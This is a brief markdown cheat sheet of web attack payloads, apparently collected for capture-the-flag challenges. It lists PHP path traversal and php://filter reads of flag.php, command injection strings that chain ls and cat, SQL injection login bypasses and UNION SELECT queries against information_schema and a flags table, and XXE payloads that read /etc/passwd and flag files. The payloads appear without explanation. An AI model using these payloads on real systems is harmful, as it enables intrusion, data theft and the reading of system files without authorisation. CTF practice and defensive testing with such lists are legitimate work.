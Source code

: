 ### PHP related:
- /?cat=dog
- /index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg
- /?file=php://filter/read=convert.base64-encode/resource=flag.php
- /secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php

### Command injection:
- 127.0.0.1;cd ..;cd ..;cd ..;ls
- /?ip=127.0.0.1;cat$IFS$1\`ls\`

### SQL injection: 
- https://github.com/payloadbox/sql-injection-payload-list
- username:`  admin  `, password: `anything` (register)
- username: `ad'||'min`, password: `a' IS NOT 'b`
- SELECT * FROM exploits WHERE ID=`1 UNION SELECT 1,2--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2 UNION SELECT 1,2,3--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2' UNION SELECT version(),user(),3--'`
- ' UNION SELECT GROUP_CONCAT(table_name), CURRENT_TIME FROM information_schema.tables WHERE table_schema=DATABASE() AND '1'='1
- ' UNION select flag, CURRENT_TIMESTAMP from flags where '1'='1

### XEE:
Format:  `<!ENTITY entity-name SYSTEM "URI/URL">`

Payload: `<?xml version="1.0" encoding="UTF-8"?>
                              <!DOCTYPE note [<!ENTITY something SYSTEM "/etc/passwd">]>
                                <data>
                                  <ID>
                                    &something;
                                  </ID>
                                </data>`
                                
Examples: 

`<!DOCTYPE note [
	<!ENTITY xxe SYSTEM "file:///flag.txt">
]> 
<query>
  <search></search>
  <country>&xxe;</country>
</query> `                               
